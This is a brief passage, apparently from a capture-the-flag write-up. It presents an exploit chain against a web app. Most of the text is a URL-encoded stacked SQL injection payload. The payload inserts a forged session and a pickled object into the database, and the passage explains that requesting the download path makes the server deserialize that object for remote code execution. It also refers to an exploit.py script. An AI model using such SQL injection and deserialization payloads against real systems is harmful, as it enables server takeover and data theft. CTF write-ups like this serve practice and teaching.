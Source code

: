 The 2 SQLI payloads + deserialized object to RCE:
\;%0AINSERT%0AOR%0AIGNORE%0AINTO%0Aactivesessions%0A(sessionid,%0Ausername,%0Atimestamp)%0AVALUES%0A(\TESTCTF\,%0A\TESTCTF\,%0A\TESTCTF\);%0AINSERT%0AINTO%0Afiles%0A(filename,%0Adata,%0Asessionid)%0AVALUES%0A(\\{filename}\,%0A\\{pickled}\,%0A\TESTCTF\\);--

then go into /download/{filename}/{sessionid} path with the injected sessionid and the filename and the object will get desirialized

script available on exploit.py
